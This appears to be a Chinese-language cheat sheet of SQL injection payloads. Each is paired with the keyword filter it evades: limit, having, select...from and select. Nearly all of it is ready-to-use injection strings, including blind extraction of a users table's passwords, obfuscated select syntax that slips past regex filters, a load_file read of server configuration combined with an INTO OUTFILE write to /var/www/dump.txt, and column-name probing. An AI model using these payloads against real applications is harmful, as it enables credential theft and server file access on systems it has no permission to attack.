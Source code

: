 通过子查询获取单值来进行比较

关键字`limit`

过滤代码`/limit/i`

```
'and(select pass from users where id=1)='a
'and(select pass from users group by id having id=1)='a
'and length((select pass from users having substr(pass,1,1)='a'))
```

关键字`having`

过滤代码`/having/i`

```
'and(select substr(group_concat(pass),1,1)from users)='a
```

关键字`select ... from`

过滤代码`/SELECT\s+[A-Za-z.]+\s+FROM/i/i`

```
select [all|distinct] pass from users
select`table_name`from`information_schema` . `tables`
select pass as alias from users
select pass aliasalias from users
select pass`alias alias`from users
select+pass%a0from(users)
```

关键字`select`

过滤代码`/select/i`

### 1 有文件读取权限

```
' and substr(load_file('file'),locate('DocumentRoot',(load_file('file')))+
length('DocumentRoot'),10)='a'='' into outfile '/var/www/dump.txt
```

### 2 获取列名

```
' and 列名 is not null#
' procedure analyse()#
```

使用substr来做过滤条件

```
'and substr(pass,1,1)='a
```

关键字`select,and,&`

'0#

